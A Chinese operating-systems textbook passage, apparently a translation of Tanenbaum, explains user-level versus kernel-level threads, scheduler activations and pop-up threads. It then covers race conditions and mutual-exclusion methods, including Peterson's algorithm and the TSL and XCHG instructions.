有时会出现这种情况：一个线程逻辑上没有阻塞，但感觉上它已经运行了足够长时间并且希望给另外一个线程机会去运行。这时可以通过调用pthread_yield完成这一目标。而进程中没有这种调用，因为假设进程间会有激烈的竞争性，并且每一个进程都希望获得它所能得到的所有的CPU时间。但是，由于同一进程中的线程可以同时工作，并且它们的代码总是由同一个程序员编写的，因此，有时程序员希望它们能互相给对方一些机会去运行。
下面两个线程调用是处理属性的。Pthread_attr_init建立关联一个线程的属性结构并初始化成默认值。这些值（例如优先级）可以通过修改属性结构中的域值来改变。
最后，pthread_attr_destroy删除一个线程的属性结构，释放它占用的内存。它不会影响调用它的线程。这些线程会继续存在。
为了更好地了解Pthread是如何工作的，考虑图2-15提供的简单例子。这里主程序在宣布它的意图之后，循环NUMBER_OF_THREADS次，每次创建一个新的线程。如果线程创建失败，会打印出一条错误信息然后退出。在创建完所有线程之后，主程序退出。

当创建一个线程时，它打印一条一行的发布信息，然后退出。这些不同信息交错的顺序是不确定的，并且可能在连续运行程序的情况下发生变化。
前面描述的Pthread调用无论如何也不是屈指可数的这几个，还有许多的调用。我们会在讨论“进程与线程同步”之后再来研究其他一些Pthread调用。
有两种主要的方法实现线程包：在用户空间中和在内核中。这两种方法互有利弊，不过混合实现方式也是可能的。我们现在介绍这些方法，并分析它们的优点和缺点。
第一种方法是把整个线程包放在用户空间中，内核对线程包一无所知。从内核角度考虑，就是按正常的方式管理，即单线程进程。这种方法第一个，也是最明显的优点是，用户级线程包可以在不支持线程的操作系统上实现。过去所有的操作系统都属于这个范围，即使现在也有一些操作系统还是不支持线程。通过这一方法，可以用函数库实现线程。
所有的这类实现都有同样的通用结构，如图2-16a所示。线程在一个运行时系统的顶部运行，这个运行时系统是一个管理线程的过程的集合。我们已经见过其中的四个过程：pthread_create，pthread_exit，pthread_join和pthread_yield。不过，一般还会有更多的过程。

在用户空间管理线程时，每个进程需要有其专用的线程表（thread table），用来跟踪该进程中的线程。这些表和内核中的进程表类似，不过它仅仅记录各个线程的属性，如每个线程的程序计数器、堆栈指针、寄存器和状态等。该线程表由运行时系统管理。当一个线程转换到就绪状态或阻塞状态时，在该线程表中存放重新启动该线程所需的信息，与内核在进程表中存放进程的信息完全一样。
当某个线程做了一些会引起在本地阻塞的事情之后，例如，等待进程中另一个线程完成某项工作，它调用一个运行时系统的过程，这个过程检查该线程是否必须进入阻塞状态。如果是，它在线程表中保存该线程的寄存器（即它本身的），查看表中可运行的就绪线程，并把新线程的保存值重新装入机器的寄存器中。只要堆栈指针和程序计数器一被切换，新的线程就又自动投入运行。如果机器有一条保存所有寄存器的指令和另一条装入全部寄存器的指令，那么整个线程的切换可以在几条指令内完成。进行类似于这样的线程切换至少比陷入内核要快一个数量级（或许更多），这是使用用户级线程包的极大的优点。
不过，线程与进程有一个关键的差别。在线程完成运行时，例如，在它调用thread_yield时，pthread_yield代码可以把该线程的信息保存在线程表中，进而，它可以调用线程调度程序来选择另一个要运行的线程。保存该线程状态的过程和调度程序都只是本地过程，所以启动它们比进行内核调用效率更高。另一方面，不需要陷阱，不需要上下文切换，也不需要对内存高速缓存进行刷新，这就使得线程调度非常快捷。
用户级线程还有另一个优点。它允许每个进程有自己定制的调度算法。例如，在某些应用程序中，那些有垃圾收集线程的应用程序就不用担心线程会在不合适的时刻停止，这是一个长处。用户级线程还具有较好的可扩展性，这是因为在内核空间中内核线程需要一些固定表格空间和堆栈空间，如果内核线程的数量非常大，就会出现问题。
尽管用户级线程包有更好的性能，但它也存在一些明显的问题。其中第一个问题是如何实现阻塞系统调用。假设在还没有任何击键之前，一个线程读取键盘。让该线程实际进行该系统调用是不可接受的，因为这会停止所有的线程。使用线程的一个主要目标是，首先要允许每个线程使用阻塞调用，但是还要避免被阻塞的线程影响其他的线程。有了阻塞系统调用，这个目标不是轻易地能够实现的。
系统调用可以全部改成非阻塞的（例如，如果没有被缓冲的字符，对键盘的read操作可以只返回0字节），但是这需要修改操作系统，所以这个办法也不吸引人。而且，用户级线程的一个长处就是它可以在现有的操作系统上运行。另外，改变read操作的语义需要修改许多用户程序。
在这个过程中，还有一种可能的替代方案，就是如果某个调用会阻塞，就提前通知。在某些UNIX版本中，有一个系统调用select可以允许调用者通知预期的read是否会阻塞。若有这个调用，那么库过程read就可以被新的操作替代，首先进行select调用，然后只有在安全的情形下（即不会阻塞）才进行read调用。如果read调用会被阻塞，有关的调用就不进行，代之以运行另一个线程。到了下次有关的运行系统取得控制权之后，就可以再次检查看看现在进行read调用是否安全。这个处理方法需要重写部分系统调用库，所以效率不高也不优雅，不过没有其他的可选方案了。在系统调用周围从事检查的这类代码称为包装器（jacket或wrapper）。
与阻塞系统调用问题有些类似的是页面故障问题。我们将在第3章讨论这些问题。此刻可以认为，把计算机设置成这样一种工作方式，即并不是所有的程序都一次性放在内存中。如果某个程序调用或者跳转到了一条不在内存的指令上，就会发生页面故障，而操作系统将到磁盘上取回这个丢失的指令（和该指令的“邻居们”），这就称为页面故障。在对所需的指令进行定位和读入时，相关的进程就被阻塞。如果有一个线程引起页面故障，内核由于甚至不知道有线程存在，通常会把整个进程阻塞直到磁盘I/O完成为止，尽管其他的线程是可以运行的。
用户级线程包的另一个问题是，如果一个线程开始运行，那么在该进程中的其他线程就不能运行，除非第一个线程自动放弃CPU。在一个单独的进程内部，没有时钟中断，所以不可能用轮转调度（轮流）的方式调度进程。除非某个线程能够按照自己的意志进入运行时系统，否则调度程序就没有任何机会。
对线程永久运行问题的一个可能的解决方案是让运行时系统请求每秒一次的时钟信号（中断），但是这样对程序也是生硬和无序的。不可能总是高频率地发生周期性的时钟中断，即使可能，总的开销也是可观的。而且，线程可能也需要时钟中断，这就会扰乱运行时系统使用的时钟。
再者，也许反对用户级线程的最大负面争论意见是，程序员通常在经常发生线程阻塞的应用中才希望使用多个线程。例如，在多线程Web服务器里。这些线程持续地进行系统调用，而一旦发生内核陷阱进行系统调用，如果原有的线程已经阻塞，就很难让内核进行线程的切换，如果要让内核消除这种情形，就要持续进行select系统调用，以便检查read系统调用是否安全。对于那些基本上是CPU密集型而且极少有阻塞的应用程序而言，使用多线程的目的又何在呢？由于这样的做法并不能得到任何益处，所以没有人会真正提出使用多线程来计算前n个素数或者下象棋等一类工作。
现在我们研究内核了解和管理线程的情形。如图2-16b所示，此时不再需要运行时系统了。另外，每个进程中也没有线程表。相反，在内核中有用来记录系统中所有线程的线程表。当某个线程希望创建一个新线程或撤销一个已有线程时，它进行一个系统调用，这个系统调用通过对线程表的更新完成线程创建或撤销工作。
内核的线程表保存了每个线程的寄存器、状态和其他信息。这些信息和在用户空间中（在运行时系统中）的线程是一样的，但是现在保存在内核中。这些信息是传统内核所维护的每个单线程进程信息（即进程状态）的子集。另外，内核还维护了传统的进程表，以便跟踪进程的状态。
所有能够阻塞线程的调用都以系统调用的形式实现，这与运行时系统过程相比，代价是相当可观的。当一个线程阻塞时，内核根据其选择，可以运行同一个进程中的另一个线程（若有一个就绪线程）或者运行另一个进程中的线程。而在用户级线程中，运行时系统始终运行自己进程中的线程，直到内核剥夺它的CPU（或者没有可运行的线程存在了）为止。
由于在内核中创建或撤销线程的代价比较大，某些系统采取“环保”的处理方式，回收其线程。当某个线程被撤销时，就把它标志为不可运行的，但是其内核数据结构没有受到影响。稍后，在必须创建一个新线程时，就重新启动某个旧线程，从而节省了一些开销。在用户级线程中线程回收也是可能的，但是由于其线程管理的代价很小，所以没有必要进行这项工作。
内核线程不需要任何新的、非阻塞系统调用。另外，如果某个进程中的线程引起了页面故障，内核可以很方便地检查该进程是否有任何其他可运行的线程，如果有，在等待所需要的页面从磁盘读入时，就选择一个可运行的线程运行。这样做的主要缺点是系统调用的代价比较大，所以如果线程的操作（创建、终止等）比较多，就会带来很大的开销。
虽然使用内核线程可以解决很多问题，但是不会解决所有的问题。例如，当一个多线程进程创建新的进程时，会发生什么？新进程是拥有与原进程相同数量的线程，还是只有一个线程？在很多情况下，最好的选择取决于进程计划下一步做什么。如果它要调用exec来启动一个新的程序，或许一个线程是正确的选择；但是如果它继续执行，则应该复制所有的线程。
另一个话题是信号。回忆一下，信号是发给进程而不是线程的，至少在经典模型中是这样的。当一个信号到达时，应该由哪一个线程处理它？线程可以“注册”它们感兴趣的某些信号，因此当一个信号到达的时候，可把它交给需要它的线程。但是如果两个或更多的线程注册了相同的信号，会发生什么？这只是线程引起的问题中的两个，但是还有更多的问题。
人们已经研究了各种试图将用户级线程的优点和内核级线程的优点结合起来的方法。一种方法是使用内核级线程，然后将用户级线程与某些或者全部内核线程多路复用起来，如图2-17所示。如果采用这种方法，编程人员可以决定有多少个内核级线程和多少个用户级线程彼此多路复用。这一模型带来最大的灵活度。

采用这种方法，内核只识别内核级线程，并对其进行调度。其中一些内核级线程会被多个用户级线程多路复用。如同在没有多线程能力操作系统中某个进程中的用户级线程一样，可以创建、撤销和调度这些用户级线程。在这种模型中，每个内核级线程有一个可以轮流使用的用户级线程集合。
尽管内核级线程在一些关键点上优于用户级线程，但无可争议的是内核级线程的速度慢。因此，研究人员一直在寻找在保持其优良特性的前提下改进其速度的方法。下面我们将介绍Anderson等人（1992）设计的这样一种方法，称为调度程序激活（scheduler activation）机制。Edler等人（1988）以及Scott等人（1990）就相关的工作进行了深入讨论。
调度程序激活工作的目标是模拟内核线程的功能，但是为线程包提供通常在用户空间中才能实现的更好的性能和更大的灵活性。特别地，如果用户线程从事某种系统调用时是安全的，那就不应该进行专门的非阻塞调用或者进行提前检查。无论如何，如果线程阻塞在某个系统调用或页面故障上，只要在同一个进程中有任何就绪的线程，就应该有可能运行其他的线程。
由于避免了在用户空间和内核空间之间的不必要转换，从而提高了效率。例如，如果某个线程由于等待另一个线程的工作而阻塞，此时没有理由请求内核，这样就减少了内核-用户转换的开销。用户空间的运行时系统可以阻塞同步的线程而另外调度一个新线程。
当使用调度程序激活机制时，内核给每个进程安排一定数量的虚拟处理器，并且让（用户空间）运行时系统将线程分配到处理器上。这一机制也可以用在多处理器中，此时虚拟处理器可能成为真实的CPU。分配给一个进程的虚拟处理器的初始数量是一个，但是该进程可以申请更多的处理器并且在不用时退回。内核也可以取回已经分配出去的虚拟处理器，以便把它们分给需要更多处理器的进程。
使该机制工作的基本思路是，当内核了解到一个线程被阻塞之后（例如，由于执行了一个阻塞系统调用或者产生了一个页面故障），内核通知该进程的运行时系统，并且在堆栈中以参数形式传递有问题的线程编号和所发生事件的一个描述。内核通过在一个已知的起始地址启动运行时系统，从而发出了通知，这是对UNIX中信号的一种粗略模拟。这个机制称为上行调用（upcall）。
一旦如此激活，运行时系统就重新调度其线程，这个过程通常是这样的：把当前线程标记为阻塞并从就绪表中取出另一个线程，设置其寄存器，然后再启动之。稍后，当内核知道原来的线程又可运行时（例如，原先试图读取的管道中有了数据，或者已经从磁盘中读入了故障的页面），内核就又一次上行调用运行时系统，通知它这一事件。此时该运行时系统按照自己的判断，或者立即重启动被阻塞的线程，或者把它放入就绪表中稍后运行。
在某个用户线程运行的同时发生一个硬件中断时，被中断的CPU切换进核心态。如果被中断的进程对引起该中断的事件不感兴趣，比如，是另一个进程的I/O完成了，那么在中断处理程序结束之后，就把被中断的线程恢复到中断之前的状态。不过，如果该进程对中断感兴趣，比如，是该进程中的某个线程所需要的页面到达了，那么被中断的线程就不再启动，代之为挂起被中断的线程。而运行时系统则启动对应的虚拟CPU，此时被中断线程的状态保存在堆栈中。随后，运行时系统决定在该CPU上调度哪个线程：被中断的线程、新就绪的线程还是某个第三种选择。
调度程序激活机制的一个目标是作为上行调用的信赖基础，这是一种违反分层次系统内在结构的概念。通常，n层提供n+1层可调用的特定服务，但是n层不能调用n+1层中的过程。上行调用并不遵守这个基本原理。
在分布式系统中经常使用线程。一个有意义的例子是如何处理到来的消息，例如服务请求。传统的方法是将进程或线程阻塞在一个receive系统调用上，等待消息到来。当消息到达时，该系统调用接收消息，并打开消息检查其内容，然后进行处理。
不过，也可能有另一种完全不同的处理方式，在该处理方式中，一个消息的到达导致系统创建一个处理该消息的线程，这种线程称为弹出式线程，如图2-18所示。弹出式线程的关键好处是，由于这种线程相当新，没有历史——没有必须存储的寄存器、堆栈诸如此类的内容，每个线程从全新开始，每一个线程彼此之间都完全一样。这样，就有可能快速创建这类线程。对该新线程指定所要处理的消息。使用弹出式线程的结果是，消息到达与处理开始之间的时间非常短。

在使用弹出式线程之前，需要提前进行计划。例如，哪个进程中的线程先运行？如果系统支持在内核上下文中运行线程，线程就有可能在那里运行（这是图2-18中没有画出内核的原因）。在内核空间中运行弹出式线程通常比在用户空间中容易且快捷，而且内核空间中的弹出式线程可以很容易访问所有的表格和I/O设备，这些也许在中断处理时有用。而另一方面，出错的内核线程会比出错的用户线程造成更大的损害。例如，如果某个线程运行时间太长，又没有办法抢占它，就可能造成进来的信息丢失。
许多已有的程序是为单线程进程编写的。把这些程序改写成多线程需要比直接写多线程程序更高的技巧。下面我们考察一些其中易犯的错误。
先考察代码，一个线程的代码就像进程一样，通常包含多个过程，会有局部变量、全局变量和过程参数。局部变量和参数不会引起任何问题，但是有一个问题是，对线程而言是全局变量，并不是对整个程序也是全局的。有许多变量之所以是全局的，是因为线程中的许多过程都使用它们（如同它们也可能使用任何全局变量一样），但是其他线程在逻辑上和这些变量无关。
作为一个例子，考虑由UNIX维护的errno变量。当进程（或线程）进行系统调用失败时，错误码会放入errno。在图2-19中，线程1执行系统调用access以确定是否允许它访问某个特定文件。操作系统把返回值放到全局变量errno里。当控制权返回到线程1之后，并在线程1读取errno之前，调度程序确认线程1此刻已用完CPU时间，并决定切换到线程2。线程2执行一个open调用，结果失败，导致重写errno，于是给线程1的返回值会永远丢失。随后在线程1执行时，它将读取错误的返回值并导致错误操作。

对于这个问题有各种解决方案。一种解决方案是全面禁止全局变量。不过这个想法不一定合适，因为它同许多已有的软件冲突。另一种解决方案是为每个线程赋予其私有的全局变量，如图2-20所示。在这个方案中，每个线程有自己的errno以及其他全局变量的私有副本，这样就避免了冲突。在效果上，这个方案创建了新的作用域层，这些变量对一个线程中所有过程都是可见的。而在原先的作用域层里，变量只对一个过程可见，并在程序中处处可见。

访问私有的全局变量需要有些技巧，不过，多数程序设计语言具有表示局部变量和全局变量的方式，而没有中间的形式。有可能为全局变量分配一块内存，并将它转送给线程中的每个过程作为额外的参数。尽管这不是一个漂亮的方案，但却是一个可用的方案。
还有另一种方案，可以引入新的库过程，以便创建、设置和读取这些线程范围的全局变量。首先一个调用也许是这样的：
create_global("bufptr");
该调用在堆上或在专门为调用线程所保留的特殊存储区上替一个名为bufptr的指针分配存储空间。无论该存储空间分配在何处，只有调用线程才可访问其全局变量。如果另一个线程创建了同名的全局变量，由于它在不同的存储单元上，所以不会与已有的那个变量产生冲突。
访问全局变量需要两个调用：一个用于写入全局变量，另一个用于读取全局变量。对于写入，类似有
set_global("bufptr",＆buf);
它把指针的值保存在先前通过调用create_global创建的存储单元中。如果要读出一个全局变量，调用的形式类似于
bufptr=read_global("bufptr");
这个调用返回一个存储在全局变量中的地址，这样就可以访问其中的数据了。
试图将单一线程程序转为多线程程序的另一个问题是，有许多库过程并不是可重入的。也就是说，它们不是被设计成下列工作方式的：对于任何给定的过程，当前面的调用尚没有结束之前，可以进行第二次调用。例如，可以将通过网络发送消息恰当地设计为，在库内部的一个固定缓冲区中进行消息组合，然后陷入内核将其发送。但是，如果一个线程在缓冲区中编好了消息，然后被时钟中断强迫切换到第二个线程，而第二个线程立即用它自己的消息重写了该缓冲区，那会怎样呢？
类似地还有内存分配过程，例如UNIX中的malloc，它维护着内存使用情况的关键表格，如可用内存块链表。在malloc忙于更新表格时，有可能暂时处于一种不一致的状态，指针的指向不定。如果在表格处于一种不一致的状态时发生了线程切换，并且从一个不同的线程中来了一个新的调用，就可能会由于使用了一个无效指针从而导致程序崩溃。要有效的解决所有这些问题意味着重写整个库。做这件事并非是无效的行为。
另一种解决方案是，为每个过程提供一个包装器，该包装器设置一个二进制位从而标志某个库处于使用中。在先前的调用还没有完成之前，任何试图使用该库的其他线程都会被阻塞。尽管这个方式可以工作，但是它会极大地降低系统潜在的并行性。
接着考虑信号。有些信号逻辑上是线程专用的，但是另一些却不是。例如，如果某个线程调用alarm，信号送往进行该调用的线程是有意义的。但是，当线程完全在用户空间实现时，内核根本不知道有线程存在，因此很难将信号发送给正确的线程。如果一个进程一次仅有一个警报信号等待处理，而其中的多个线程又独立地调用alarm，那么情况就更加复杂了。
有些信号，如键盘中断，则不是线程专用的。谁应该捕捉它们？一个指定的线程？所有的线程？还是新创建的弹出式线程？进而，如果某个线程修改了信号处理程序，而没有通知其他线程，会出现什么情况？如果某个线程想捕捉一个特定的信号（比如，用户击键CTRL+C），而另一个线程却想用这个信号终止进程，又会发生什么情况？如果有一个或多个线程运行标准的库过程以及其他用户编写的过程，那么情况还会更复杂。很显然，这些想法是不兼容的。一般而言，在单线程的环境中信号已经是很难管理的了，到了多线程环境中并不会使这一情况变得容易处理。
由多线程引入的最后一个问题是堆栈的管理。在很多系统中，当一个进程的堆栈溢出时，内核只是自动为该进程提供更多的堆栈。当一个进程有多个线程时，就必须有多个堆栈。如果内核不了解所有的堆栈，就不能使它们自动增长，直到造成堆栈出错。事实上，内核有可能还没有意识到内存错是和某个线程栈的增长有关系的。
这些问题当然不是不可克服的，但是却说明了给已有的系统引入线程而不进行实质性的重新设计系统是根本不行的。至少可能需要重新定义系统调用的语义，并且不得不重写库。而且所有这些工作必须与在一个进程中有一个线程的原有程序向后兼容。有关线程的其他信息，可以参阅（Hauser等人，1993；Marsh等人，1991）。
进程经常需要与其他进程通信。例如，在一个shell管道中，第一个进程的输出必须传送给第二个进程，这样沿着管道传递下去。因此在进程之间需要通信，而且最好使用一种结构良好的方式，不要使用中断。在下面几节中，我们就来讨论一些有关进程间通信（Inter Process Communication，IPC）的问题。
简要地说，有三个问题。第一个问题与上面的叙述有关，即一个进程如何把信息传递给另一个。第二个要处理的问题是，确保两个或更多的进程在关键活动中不会出现交叉，例如，在飞机订票系统中的两个进程为不同的客户试图争夺飞机上的最后一个座位。第三个问题与正确的顺序有关（如果该顺序是有关联的话），比如，如果进程A产生数据而进程B打印数据，那么B在打印之前必须等待，直到A已经产生一些数据。我们将从下一节开始考察所有这三个问题。
有必要说明，这三个问题中的两个问题对于线程来说是同样适用的。第一个问题（即传递信息）对线程而言比较容易，因为它们共享一个地址空间（在不同地址空间需要通信的线程属于不同进程之间的通信情形）。但是另外两个问题（需要梳理清楚并保持恰当的顺序）同样适用于线程。同样的问题可用同样的方法解决。下面开始讨论进程间通信的问题，不过请记住，同样的问题和解决方法也适用于线程。
在一些操作系统中，协作的进程可能共享一些彼此都能读写的公用存储区。这个公用存储区可能在内存中（可能是在内核数据结构中），也可能是一个共享文件。这里共享存储区的位置并不影响通信的本质及其带来的问题。为了理解实际中进程间通信如何工作，我们考虑一个简单但很普遍的例子：一个假脱机打印程序。当一个进程需要打印一个文件时，它将文件名放在一个特殊的假脱机目录（spooler directory）下。另一个进程（打印机守护进程）则周期性地检查是否有文件需要打印，若有就打印并将该文件名从目录下删掉。
设想假脱机目录中有许多槽位，编号依次为0，1，2，…，每个槽位存放一个文件名。同时假设有两个共享变量：out，指向下一个要打印的文件；in，指向目录中下一个空闲槽位。可以把这两个变量保存在一个所有进程都能访问的文件中，该文件的长度为两个字。在某一时刻，0号至3号槽位空（其中的文件已经打印完毕），4号至6号槽位被占用（其中存有排好队列的要打印的文件名）。几乎在同一时刻，进程A和进程B都决定将一个文件排队打印，这种情况如图2-21所示。

在Murphy法则（任何可能出错的地方终将出错）生效时，可能发生以下的情况。进程A读到in的值为7，将7存在一个局部变量next_free_slot中。此时发生一次时钟中断，CPU认为进程A已运行了足够长的时间，决定切换到进程B。进程B也读取in，同样得到值为7，于是将7存在B的局部变量next_free_slot中。在这一时刻两个进程都认为下一个可用槽位是7。
进程B现在继续运行，它将其文件名存在槽位7中并将in的值更新为8。然后它离开，继续执行其他操作。
最后进程A接着从上次中断的地方再次运行。它检查变量next_free_slot，发现其值为7，于是将打印文件名存入7号槽位，这样就把进程B存在那里的文件名覆盖掉。然后它将next_free_slot加1，得到值为8，就将8存到in中。此时，假脱机目录内部是一致的，所以打印机守护进程发现不了任何错误，但进程B却永远得不到任何打印输出。类似这样的情况，即两个或多个进程读写某些共享数据，而最后的结果取决于进程运行的精确时序，称为竞争条件（race condition）。调试包含有竞争条件的程序是一件很头痛的事。大多数的测试运行结果都很好，但在极少数情况下会发生一些无法解释的奇怪现象。
怎样避免竞争条件？实际上凡涉及共享内存、共享文件以及共享任何资源的情况都会引发与前面类似的错误，要避免这种错误，关键是要找出某种途径来阻止多个进程同时读写共享的数据。换言之，我们需要的是互斥（mutual exclusion），即以某种手段确保当一个进程在使用一个共享变量或文件时，其他进程不能做同样的操作。前述问题的症结就在于，在进程A对共享变量的使用未结束之前进程B就使用它。为实现互斥而选择适当的原语是任何操作系统的主要设计内容之一，也是我们在后面几节中要详细讨论的主题。
避免竞争条件的问题也可以用一种抽象的方式进行描述。一个进程的一部分时间做内部计算或另外一些不会引发竞争条件的操作。在某些时候进程可能需要访问共享内存或共享文件，或执行另外一些会导致竞争的操作。我们把对共享内存进行访问的程序片段称作临界区域（critical region）或临界区（critical section）。如果我们能够适当地安排，使得两个进程不可能同时处于临界区中，就能够避免竞争条件。
尽管这样的要求避免了竞争条件，但它还不能保证使用共享数据的并发进程能够正确和高效地进行协作。对于一个好的解决方案，需要满足以下4个条件：
1)任何两个进程不能同时处于其临界区。
2)不应对CPU的速度和数量做任何假设。
3)临界区外运行的进程不得阻塞其他进程。
4)不得使进程无限期等待进入临界区。
从抽象的角度看，我们所希望的进程行为如图2-22所示。图2-22中进程A在T1 时刻进入临界区。稍后，在T2 时刻进程B试图进入临界区，但是失败了，因为另一个进程已经在该临界区内，而一个时刻只允许一个进程在临界区内。随后，B被暂时挂起直到T3 时刻A离开临界区为止，从而允许B立即进入。最后，B离开（在时刻T4 ），回到了在临界区中没有进程的原始状态。

本节将讨论几种实现互斥的方案。在这些方案中，当一个进程在临界区中更新共享内存时，其他进程将不会进入其临界区，也不会带来任何麻烦。
1.屏蔽中断
在单处理器系统中，最简单的方法是使每个进程在刚刚进入临界区后立即屏蔽所有中断，并在就要离开之前再打开中断。屏蔽中断后，时钟中断也被屏蔽。CPU只有发生时钟中断或其他中断时才会进行进程切换，这样，在屏蔽中断之后CPU将不会被切换到其他进程。于是，一旦某个进程屏蔽中断之后，它就可以检查和修改共享内存，而不必担心其他进程介入。
这个方案并不好，因为把屏蔽中断的权力交给用户进程是不明智的。设想一下，若一个进程屏蔽中断后不再打开中断，其结果将会如何？整个系统可能会因此终止。而且，如果系统是多处理器（有两个或可能更多的处理器），则屏蔽中断仅仅对执行disable指令的那个CPU有效。其他CPU仍将继续运行，并可以访问共享内存。
另一方面，对内核来说，当它在更新变量或列表的几条指令期间将中断屏蔽是很方便的。当就绪进程队列之类的数据状态不一致时发生中断，则将导致竞争条件。所以结论是：屏蔽中断对于操作系统本身而言是一项很有用的技术，但对于用户进程则不是一种合适的通用互斥机制。
由于多核芯片的数量越来越多，即使在低端PC上也是如此。因此，通过屏蔽中断来达到互斥的可能性——甚至在内核中——变得日益减少了。双核现在已经相当普遍，四核当前在高端机器中存在，而且我们离八或十六（核）也不久远了。在一个多核系统中（例如，多处理器系统），屏蔽一个CPU的中断不会阻止其他CPU干预第一个CPU所做的操作。结果是人们需要更加复杂的计划。
2.锁变量
作为第二种尝试，可以寻找一种软件解决方案。设想有一个共享（锁）变量，其初始值为0。当一个进程想进入其临界区时，它首先测试这把锁。如果该锁的值为0，则该进程将其设置为1并进入临界区。若这把锁的值已经为1，则该进程将等待直到其值变为0。于是，0就表示临界区内没有进程，1表示已经有某个进程进入临界区。
但是，这种想法也包含了与假脱机目录一样的疏漏。假设一个进程读出锁变量的值并发现它为0，而恰好在它将其值设置为1之前，另一个进程被调度运行，将该锁变量设置为1。当第一个进程再次能运行时，它同样也将该锁设置为1，则此时同时有两个进程进入临界区中。
可能读者会想，先读出锁变量，紧接着在改变其值之前再检查一遍它的值，这样便可以解决问题。但这实际上无济于事，如果第二个进程恰好在第一个进程完成第二次检查之后修改了锁变量的值，则同样还会发生竞争条件。
3.严格轮换法
第三种互斥的方法如图2-23所示。几乎与本书中所有其他程序一样，这里的程序段用C语言编写。之所以选择C语言是由于实际的操作系统普遍用C语言编写（或偶尔用C++），而基本上不用像Java、Modula3或Pascal这样的语言。对于编写操作系统而言，C语言是强大、有效、可预知和有特性的语言。而对于Java，它就不是可预知的，因为它在关键时刻会用完存储器，而在不合适的时候会调用垃圾收集程序回收内存。在C语言中，这种情形就不可能发生，因为C语言中不需要进行空间回收。有关C、C++、Java和其他四种语言的定量比较可参阅（Prechelt，2000）。
在图2-23中，整型变量turn，初始值为0，用于记录轮到哪个进程进入临界区，并检查或更新共享内存。开始时，进程0检查turn，发现其值为0，于是进入临界区。进程1也发现其值为0，所以在一个等待循环中不停地测试turn，看其值何时变为1。连续测试一个变量直到某个值出现为止，称为忙等待（busy waiting）。由于这种方式浪费CPU时间，所以通常应该避免。
只有在有理由认为等待时间是非常短的情形下，才使用忙等待。用于忙等待的锁，称为自旋锁（spin lock）。
进程0离开临界区时，它将turn的值设置为1，以便允许进程1进入其临界区。假设进程1很快便离开了临界区，则此时两个进程都处于临界区之外，turn的值又被设置为0。现在进程0很快就执行完其整个循环，它退出临界区，并将turn的值设置为1。此时，turn的值为1，两个进程都在其临界区外执行。
突然，进程0结束了非临界区的操作并且返回到循环的开始。但是，这时它不能进入临界区，因为turn的当前值为1，而此时进程1还在忙于非临界区的操作，进程0只有继续while循环，直到进程1把turn的值改为0。这说明，在一个进程比另一个慢了很多的情况下，轮流进入临界区并不是一个好办法。
这种情况违反了前面叙述的条件3：进程0被一个临界区之外的进程阻塞。再回到前面假脱机目录的问题，如果我们现在将临界区与读写假脱机目录相联系，则进程0有可能因为进程1在做其他事情而被禁止打印另一个文件。
实际上，该方案要求两个进程严格地轮流进入它们的临界区，如假脱机文件等。任何一个进程都不可能在一轮中打印两个文件。尽管该算法的确避免了所有的竞争条件，但由于它违反了条件3，所以不能作为一个很好的备选方案。
4.Peterson解法
荷兰数学家T.Dekker通过将锁变量与警告变量的思想相结合，最早提出了一个不需要严格轮换的软件互斥算法。关于Dekker的算法，请参阅（Dijkstra，1965）。
1981年，G.L.Peterson发现了一种简单得多的互斥算法，这使得Dekker的方法不再有任何新意。Peterson的算法如图2-24所示。该算法由两个用ANSI C编写的过程组成。ANSI C要求为所定义和使用的所有函数提供函数原型。不过，为了节省篇幅，在这里和后续的例子中我们将不给出函数原型。
在使用共享变量（即进入其临界区）之前，各个进程使用其进程号0或1作为参数来调用enter_region。该调用在需要时将使进程等待，直到能安全地进入临界区。在完成对共享变量的操作之后，进程将调用leave_region，表示操作已完成，若其他的进程希望进入临界区，则现在就可以进入。
现在来看看这个方案是如何工作的。一开始，没有任何进程处于临界区中，现在进程0调用enter_region。它通过设置其数组元素和将turn置为0来标识它希望进入临界区。由于进程1并不想进入临界区，所以enter_region很快便返回。如果进程1现在调用enter_region，进程1将在此处挂起直到interested[0]变成FALSE，该事件只有在进程0调用leave_region退出临界区时才会发生。
现在考虑两个进程几乎同时调用enter_region的情况。它们都将自己的进程号存入turn，但只有后被保存进去的进程号才有效，前一个因被重写而丢失。假设进程1是后存入的，则turn为1。当两个进程都运行到while语句时，进程0将循环0次并进入临界区，而进程1则将不停地循环且不能进入临界区，直到进程0退出临界区为止。
5.TSL指令
现在来看需要硬件支持的一种方案。某些计算机中，特别是那些设计为多处理器的计算机，都有下面一条指令：
TSL RX,LOCK
称为测试并加锁（Test and Set Lock），它将一个内存字lock读到寄存器RX中，然后在该内存地址上存一个非零值。读字和写字操作保证是不可分割的，即该指令结束之前其他处理器均不允许访问该内存字。执行TSL指令的CPU将锁住内存总线，以禁止其他CPU在本指令结束之前访问内存。
着重说明一下，锁住存储总线不同于屏蔽中断。屏蔽中断，然后在读内存字之后跟着写操作并不能阻止总线上的第二个处理器在读操作和写操作之间访问该内存字。事实上，在处理器1上屏蔽中断对处理器2根本没有任何影响。让处理器2远离内存直到处理器1完成的惟一方法就是锁住总线，这需要一个特殊的硬件设施（基本上，一根总线就可以确保总线由锁住它的处理器使用，而其他的处理器不能用）。
为了使用TSL指令，要使用一个共享变量lock来协调对共享内存的访问。当lock为0时，任何进程都可以使用TSL指令将其设置为1，并读写共享内存。当操作结束时，进程用一条普通的move指令将lock的值重新设置为0。
这条指令如何防止两个进程同时进入临界区呢？解决方案如图2-25所示。假定（但很典型）存在如下共4条指令的汇编语言子程序。第一条指令将lock原来的值复制到寄存器中并将lock设置为1，随后这个原来的值与0相比较。如果它非零，则说明以前已被加锁，则程序将回到开始并再次测试。经过或长或短的一段时间后，该值将变为0（当前处于临界区中的进程退出临界区时），于是过程返回，此时已加锁。要清除这个锁非常简单，程序只需将0存入lock即可，不需要特殊的同步指令。
现在有一种很明确的解法了。进程在进入临界区之前先调用enter_region，这将导致忙等待，直到锁空闲为止，随后它获得该锁并返回。在进程从临界区返回时它调用leave_region，这将把lock设置为0。与基于临界区问题的所有解法一样，进程必须在正确的时间调用enter_region和leave_region，解法才能奏效。如果一个进程有欺诈行为，则互斥将会失败。
一个可替代TSL的指令是XCHG，它原子性地交换了两个位置的内容，例如，一个寄存器与一个存储器字。代码如图2-26所示，而且就像可以看到的那样，它本质上与TSL的解决办法一样。所有的Intel x86 CPU在低层同步中使用XCHG指令。
Peterson解法和TSL或XCHG解法都是正确的，但它们都有忙等待的缺点。这些解法在本质上是这样的：当一个进程想进入临界区时，先检查是否允许进入，若不允许，则该进程将原地等待，直到允许为止。
